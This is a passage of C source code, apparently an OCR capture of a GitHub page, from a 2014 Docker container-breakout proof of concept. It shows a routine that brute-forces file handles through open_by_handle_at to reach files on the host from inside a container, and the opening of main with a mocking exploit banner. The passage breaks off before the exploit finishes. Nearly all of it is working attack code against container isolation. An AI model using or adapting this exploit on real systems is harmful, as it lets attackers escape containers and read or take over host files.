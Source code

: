 ```c
		die("[-] open_by_handle_at");

	if ((dir = fdopendir(fd)) == NULL)
		die("[-] fdopendir");

	for (;;) {
		de = readdir(dir);
		if (!de)
			break;
		fprintf(stderr, "[*] Found %s\n", de->d_name);
		if (strncmp(de->d_name, path, strlen(de->d_name)) == 0) {
			fprintf(stderr, "[+] Match: %s ino=%d\n", de->d_name, (int)de->d_ino);
			ino = de->d_ino;
			break;
		}
	}

	fprintf(stderr, "[*] Brute forcing remaining 32bit. This can take a while...\n");


	if (de) {
		for (uint32_t i = 0; i < 0xffffffff; ++i) {
			outh.handle_bytes = 8;
			outh.handle_type = 1;
			memcpy(outh.f_handle, &ino, sizeof(ino));
			memcpy(outh.f_handle + 4, &i, sizeof(i));

			if ((i % (1<<20)) == 0)
				fprintf(stderr, "[*] (%s) Trying: 0x%08x\n", de->d_name, i);
			if (open_by_handle_at(bfd, (struct file_handle *)&outh, 0) > 0) {
				closedir(dir);
				close(fd);
				dump_handle(&outh);
				return find_handle(bfd, path, &outh, oh);
			}
		}
	}

	closedir(dir);
	close(fd);
	return 0;
}


int main()
{
	char buf[0x1000];
	int fd1, fd2;
	struct my_file_handle h;
	struct my_file_handle root_h = {
		.handle_bytes = 8,
		.handle_type = 1,
		.f_handle = {0x02, 0, 0, 0, 0, 0, 0, 0}
	};

	fprintf(stderr, "[***] docker VMM-container breakout Po(C) 2014             [***]\n"
	       "[***] The tea from the 90's kicks your sekurity again.     [***]\n"
	       "[***] If you have pending sec consulting, I'll happily     [***]\n"
	       "[***] forward to my friends who drink secury-tea too!      [***]\n\n<enter>\n");

	read(0, buf, 1);

	// get a FS reference from something mounted in from outside
```